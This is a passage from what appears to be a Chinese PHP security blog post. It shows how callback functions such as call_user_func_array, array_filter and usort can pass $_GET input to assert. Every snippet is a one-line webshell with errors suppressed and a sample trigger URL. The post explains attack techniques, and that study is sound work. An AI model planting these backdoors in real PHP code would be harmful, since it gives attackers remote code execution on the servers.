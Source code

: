 ![Snipaste_2018-10-21_16-25-29.png](https://whitecell.io/upload/attach/201810/151_7KYFQPETKVSH364.png "Snipaste_2018-10-21_16-25-29.png")

call_user_func_array()

```php
<?php

error_reporting(0);

//?a=phpinfo();
$array[0] = $_GET['a'];

call_user_func_array("assert",$array);
```

![Snipaste_2018-10-21_16-25-29.png](https://whitecell.io/upload/attach/201810/151_7KYFQPETKVSH364.png "Snipaste_2018-10-21_16-25-29.png")

### array_filter()

官方文档

> array array_filter ( array $array [, callable $callback [, int $flag = 0 ]] )

> 依次将 array 数组中的每个值传递到 callback 函数。如果 callback 函数返回 true，则 array 数组的当前值会被包含在返回的结果数组中。数组的键名保留不变。

示例

```php
<?php

error_reporting(0);

//?a=phpinfo();
$array[0] = $_GET['a'];
array_filter($array,'assert');
```

![Snipaste_2018-10-21_16-25-29.png](https://whitecell.io/upload/attach/201810/151_7KYFQPETKVSH364.png "Snipaste_2018-10-21_16-25-29.png")

### usort()/uasort()

usrot官方文档

> bool usort ( array &$array , callable $value_compare_func )

> 本函数将用用户自定义的比较函数对一个数组中的值进行排序。 如果要排序的数组需要用一种不寻常的标准进行排序，那么应该使用此函数。

shell_1

```php
<?php

error_reporting(0);

//?1[]=test&1[]=phpinfo();&2=assert
usort(...$_GET);
```


[1]: http://mannix.top/
[2]: https://www.anquanke.com/post/id/162128